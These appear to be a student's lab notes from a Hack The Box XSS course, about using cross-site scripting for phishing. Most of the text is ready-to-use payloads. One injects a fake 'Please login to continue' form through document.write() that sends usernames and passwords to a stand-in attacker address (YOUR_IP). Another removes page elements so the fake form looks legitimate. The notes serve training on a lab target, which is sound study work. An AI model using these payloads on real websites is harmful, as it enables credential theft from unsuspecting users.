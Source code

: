 - [Secure Coding 101: JavaScript](https://academy.hackthebox.com/course/preview/secure-coding-101-javascript)
- [Whitebox Pentesting 101: Command Injection](https://academy.hackthebox.com/course/preview/whitebox-pentesting-101-command-injection)

***LAB:*

URL was vulnerable after valid data was entered into the required fields.

Payload was inserted where the email parameter was located in the URL:

## Phishing

### First, discover a working XSS Payload

### Login Form Injection

#### Basic HTML Login Form
```html
<h3>Please login to continue</h3>
<form action=http://YOUR_IP>
	<input type="username" name="username" placeholder="Username">
	<input type="password" name="password" placeholder="Password">
	<input type="submit" name="submit" value="Login">
</form>
```

#### JavaScript Function to write login form to page: `document.write()`
```HTML
'><script>document.write('<h3>Please login to continue</h3><form action=http://YOUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');</script>'
```
***LAB NOTE:* *Make sure your quotation marks are correct. Everything inside `document.write`'s parentheses should be green.*

#### Remove page elements (e.g., Image URL field)
`JavaScript Function`:
```JavaScript
document.getElementById().remove()
```
To find the id of the HTML element we want to remove, we can open the Page Inspector Picker by clicking [CTRL+SHIFT+C] and then clicking on the element we need
![[Pasted image 20230128113321.png]]
As we see in both the source code and the hover text, the url form has the id urlform:
```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```

`XSS Payload`:
```html
'><script>document.getElementById('urlform').remove();</script>'
```
Add to previous payload so you have the fake login form on the screen
